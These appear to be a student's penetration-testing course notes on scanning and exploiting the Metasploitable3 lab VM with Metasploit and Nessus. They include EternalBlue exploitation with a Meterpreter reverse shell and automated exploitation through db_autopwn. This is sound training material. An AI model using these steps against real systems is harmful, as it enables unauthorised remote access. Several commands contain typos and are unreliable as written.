 # Vulnerability Scanning with MSF

## Vulnerability Scanning

- Vulnerability Scanning & detection is the process of scanning a target for vulnerabilites and verifying whether they can be exploited
- So far, we have been able to identify and exploit misconigurations on target systems, however, in this section we will be exploring the process of utilizing auxiliary and exploit modules to scan and identify inherent vulnerabilities in services, operating systems and web apps.
- We also be exploring the process of utilizing third party vulnerability scanning tools like Nessus and how we can integrate Nessus functionality in to the MSF.

## Lab Environment 

- For the purposes of demonstrating the vulnerability scanning process, we will be utilizing an intentionally vulnerable virtual machine called Metasploitable3 that is based on Windows Server 2008.
- Metasploitable3 was developed by Rapid7 to demonstrate how MSF can be used to perform exploitation of a Windows System.
- Instructions on how this VM can be setup can be found here: https://bit.ly/3kASwns

## Demo: Vulnerability Scanning with MSF

`sudo nmap -sn [IP/24]`

`ip a s` to get the target IP

`service postgresql start && msfconsole`

msf6:`setg rhosts [targetIP]`

msf6:`setg rhost [targetIP]`

msf6:`workspace -a MS3`

We enumerate the service version with following command which imports the results automatically into the msf database:

msf6:`db_nmap -sS -sV -O [targetIP]`

The information got stored:

msf6:`hosts`

msf6:`services`

How do we utilize this service information to find and identify vulnerabilites?

- We could search for exploits like f.e. `search type:exploit name:Microsoft IIS`, dead end if the msf exploit module don't match the service version running on the target

If we are not sure if a exploit version works for the service version running on the system, we can use the module and type in `info`

msf6:`set payload windows/meterpreter/reverse_tcp`

msf6:`show options`

We need to enumerate the service so we can fill in the variables correctly (port etc.)

msf6:`services`

We take a step back into msf.

msf6:`services`

If we want to search for a msf module, we can use the `search` command or we can use the inbuilt kali linux searchsploit utility:

msf6:`searchsploit "Microsoft Windows SMB | grep -e "Metasploit"`

msf6:`search eternalblue`

First we use the auxiliary module to check if the target is vulnerable:

msf6:`use auxiliary/scanner/smb/smb_ms17_010`

msf6:`show options`

msf6:`run`

msf6:`use exploit/windows/smb/ms17_010_eternalblue`

msf6:`show options`: check if correctly configured

msf6:`run`

We get a meterpreter session.

### Metasploit AutoPWN

https://github.com/hahwul/metasploit-autopwn

The `metasploit-autopwn` repository provides a script that replicates the classic "Autopwn" feature in Metasploit, automating the process of scanning for vulnerabilities, selecting appropriate exploits, and executing them against a target system. It handles exploit management, payload selection, and session handling automatically, simplifying penetration testing tasks. This tool is useful for quickly identifying and exploiting vulnerabilities, but should only be used ethically and with proper authorization.

download repo and move it into /usr/share/metasploit-framework/plugins

msf6:`load db_autopwn`

msf6:`db_autopwn`

msf6:`db_autopwn -p -t`

Specify port range:

msf6:`db_autopwn -p -t -PI 445`

The next step would be enumerate more infos and finding the appropriate exploit to use.

### Analyze command:

Analyzes the contents of the msf databases (hosts and services), and create a list of vulnerabilites the services suffer from.

msf6:`analyze`

msf6:`vulns`

# Vulnerability Scanning with Nessus

- Nessus is a proprietary vulnerabiliy scanner developed by Tenable.
- We can utilize Nessus to perform a vulnerability scan on a target system, after which, we can import the Nessus results in to MSF for analysis and exploitation.
- Nessus automates the process of identifying vulnerabilities and also provides us with information pertinent to a vulnerability like the CVE code.
- We can use the free version of Nessus (Nessus Essentials), which allows us to scan upto 16 IPs.

## Lab Environment

- We use the same Environment as before.

## Demo: Vulnerability Scanning with Nessus

We download Nessus Essentials 

`cd Downloads`

`chmod +x [Nessus_package]`

`sudo dpkg -i [Nessus_package]`

`sudo sstemctl start nessusd.service`

`sudo sstemctl status nessusd.service`

We go via browser to our localhost:

https://127.0.0.1:8834

After we set up Nessus, we Start a new scan and start a full system scan.

- Name: MS3
- Targets: [TargetIP]
- If we want to launch an authenticated scan, we can specify the credentials under "Credentials".
- We can get more info under "Discovery" and "Assessment" and "Reporting"
- We check out the "Vulnerability" after the scan is finished. The higher up the software is, the more vulnerability it has. We can adjust this via the "Filter" option.
- We get the CVE and CVS if we click on a vulnerabiliy.
- Severety filter gives us the vulns with high severeties.

- Exporting the scan and import it into msf:
  . Export, Nessus -> download XML

`msfconsole`

msf6:`workspce -a MS3_Nessus`

msf6:`db_import`

msf6:`db_import /home/kali/Downloads/[Nessus_import]`

msf6:`hosts`

msf6:`services`

msf6:`vulns`: Gives us ideas about the vulnerabilites and ports

msf6:`vulns -p 445`: Shows us all vulnerabilites affecting this version of SMB on the target.

### Obtaining This Information Obtaining Exploits:

We can try to look for exploits on various ports.

If we want to search for a specific CVE exploit, we can use following command:

msf6:`search cve.2017 name:smb`: gives us various modules for this CVE

Conclusion: We kann look for CVEs via Nessus and search for them in the MSF























